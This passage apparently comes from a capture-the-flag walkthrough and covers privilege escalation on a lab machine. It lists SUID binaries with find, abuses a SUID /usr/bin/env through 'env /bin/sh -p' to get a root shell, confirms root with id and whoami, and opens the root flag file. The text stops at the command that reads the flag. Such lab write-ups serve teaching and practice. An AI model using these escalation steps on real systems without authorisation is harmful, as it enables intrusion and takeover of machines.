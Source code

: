 ### 5. Enumerate for Privilege Escalation
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output: No TTY available (common in unstable shells) [].
- Searched for SUID binaries:
  ```bash
  find / -perm -u=s -type f 2>/dev/null
  ```
- **Explanation**:
  - `-perm -u=s`: Find files with the SUID bit set (run with owner’s permissions, often `root`).
  - `-type f`: Limit to files.
  - `2>/dev/null`: Suppress permission-denied errors.
- Partial output (from your input):
  ```
  /bin/ping
  /bin/mount
  /bin/su
  /usr/bin/env
  /usr/bin/sudo
  /usr/bin/passwd
  ...
  ```
- **Key Finding**: `/usr/bin/env` has the SUID bit, which is exploitable .

### 6. Escalate to Root
- Visited [GTFOBins](https://gtfobins.github.io/gtfobins/env/) for `env` exploitation.
- Found:
  ```bash
  env /bin/sh -p
  ```
- **Explanation**: The SUID bit on `env` allows it to run with `root` privileges. Using `/bin/sh -p` (privileged mode) spawns a shell that retains the effective user ID (`root`).
- Ran the command:
  ```bash
  /usr/bin/env /bin/sh -p
  ```
- Verified:
  ```bash
  id
  ```
- Output:
  ```
  uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
  ```
- Confirmed root:
  ```bash
  whoami
  root
  ```

### 7. Find Root Flag
- Navigated to:
  ```bash
  cd /root
  ls
  ```
- Output:
  ```
  root.txt
  ```
- Read the flag:
  ```bash
  cat root.txt
  ```